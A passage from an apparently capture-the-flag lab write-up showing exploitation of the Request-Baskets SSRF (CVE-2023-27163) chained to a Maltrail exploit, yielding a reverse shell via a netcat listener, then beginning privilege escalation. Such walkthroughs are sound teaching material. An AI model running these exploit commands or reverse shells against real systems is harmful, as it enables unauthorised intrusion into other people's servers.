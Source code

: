 ```
$ ./script.sh http://10.129.127.134:55555 http://127.0.0.1:80/login
Proof-of-Concept of SSRF on Request-Baskets (CVE-2023-27163) || More info at https://github.com/entr0pie/CVE-2023-27163

> Creating the "sbqmby" proxy basket...
> Basket created!
> Accessing http://10.129.127.134:55555/sbqmby now makes the server request to http://127.0.0.1:80/login.
> Authorization: YXhlB4IM-Z2O0Z1_wrnNbY589lzZY4MhdNQGDegmao3D
```

The next step is to start a `nc` listener and run the Maltrail exploit against the newly created basket

```
$ python3 exploit.py 10.10.16.44 1234 http://10.129.127.134:55555/sbqmby
Running exploit on http://10.129.127.134:55555/sbqmby
```

And there we get the reverse shell and user flag

```
$ nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.10.16.44] from (UNKNOWN) [10.129.127.134] 38442
$ whoami
whoami
puma
$ pwd
pwd
/opt/maltrail
$ cd ~
cd ~
$ cat user.txt
cat user.txt
```

## Privilege Escalation

For this part, we can get started with looking at the files in the home directory of our current user but nothing interesting can be found there.

```
$ ls -la
ls -la
total 32
drwxr-xr-x 4 puma puma 4096 Jun 19 12:25 .
drwxr-xr-x 3 root root 4096 Apr 15 09:17 ..
lrwxrwxrwx 1 root root    9 Apr 14 17:46 .bash_history -> /dev/null
-rw-r--r-- 1 puma puma  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 puma puma 3771 Feb 25  2020 .bashrc
drwx------ 2 puma puma 4096 Apr 15 09:42 .cache
drwx------ 3 puma puma 4096 Apr 15 09:51 .gnupg
-rw-r--r-- 1 puma puma  807 Feb 25  2020 .profile
lrwxrwxrwx 1 puma puma    9 Apr 15 09:41 .viminfo -> /dev/null
lrwxrwxrwx 1 puma puma    9 Apr 15 09:41 .wget-hsts -> /dev/null
-rw-r----- 1 root puma   33 Aug 25 07:37 user.txt
```
